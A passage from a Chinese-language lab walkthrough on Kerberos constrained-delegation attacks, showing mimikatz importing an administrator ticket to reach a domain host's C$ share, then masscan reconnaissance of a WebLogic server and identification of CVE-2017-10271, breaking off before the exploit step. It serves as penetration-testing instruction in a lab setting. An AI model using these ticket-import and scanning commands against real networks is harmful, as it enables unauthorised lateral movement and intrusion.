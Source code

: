 #### 7）导入票据

```shell
mimikatz kerberos::ptc administrator.ccache
```

![截图](4685bcbe7a442d24a6c2b2fd148f00fe.png)

连接：

```shell
dir \\data.xiaodi.local\c$
```

![截图](802832bbe08d6c4cf4d6414b40b8f63a.png)

## 0x04 约束性委派靶场实战

这里我们将开启一个三层网络的实战环节。 根据，0x00中的实战环境，我们可以规划处以下的渗透路线：

![截图](a8aa0a853a7565b7e212a3f80104f2b9.png)

因此，我们的第一步是需要乳清到webserver中！！！

### 1、环境开启

我们首先需要手动的开启weblogic：

```markdown
C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\startWebLogic.cmd
```

### 2、外网打点

我们这里连接的外网网卡假设为192.168.31.205

#### 1）信息收集

使用masscan进行收集对应ip地址的端口信息：

```shell
sudo bin/masscan -p 1-65535 --rate=1000 192.168.31.205
```

![截图](19fcad9598cce09d688ec97fc01daa0e.png)

然后，我们发现7001这个端口。 一般来说7001的端口是weblogic默认的端口，因此我们尝试用weblogic的默认登陆地址尝试：

```markdown
http://192.168.31.205:7001/console/login/LoginForm.jsp
```

此时，可以发现确实存在weblogic，且给出了具体的版本号！ 确定可能存在weblogic的反序列化漏洞（CVE-2017-10271）

![截图](dcf2019caa0fd5b43252659f2c0ae8c4.png)

#### 2）利用漏洞，上线cs

